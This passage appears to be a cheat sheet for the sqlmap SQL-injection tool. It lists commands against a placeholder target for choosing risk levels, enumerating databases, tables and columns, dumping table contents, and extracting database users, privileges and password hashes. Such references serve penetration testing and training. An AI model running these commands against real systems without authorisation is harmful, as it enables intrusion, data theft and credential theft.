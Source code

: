 ### Risk Levels
```bash
# Risk 1: Default (mostly harmless requests)
sqlmap -u "http://target.com/page.php?id=1" --risk=1

# Risk 2: Adds OR-based SQL injection tests
sqlmap -u "http://target.com/page.php?id=1" --risk=2

# Risk 3: Adds AND-based SQL injection tests
sqlmap -u "http://target.com/page.php?id=1" --risk=3
```

## Enumeration

### Basic Enumeration
```bash
# Get database banner
sqlmap -u "http://target.com/page.php?id=1" --banner

# Get current database
sqlmap -u "http://target.com/page.php?id=1" --current-db

# Get current user
sqlmap -u "http://target.com/page.php?id=1" --current-user

# Check if user is DBA
sqlmap -u "http://target.com/page.php?id=1" --is-dba
```

### Database Enumeration
```bash
# List all databases
sqlmap -u "http://target.com/page.php?id=1" --dbs

# List tables in database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# List columns in table
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# Dump table content
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump
```

### User Enumeration
```bash
# List database users
sqlmap -u "http://target.com/page.php?id=1" --users

# List user privileges
sqlmap -u "http://target.com/page.php?id=1" --privileges

# List user passwords
sqlmap -u "http://target.com/page.php?id=1" --passwords
```
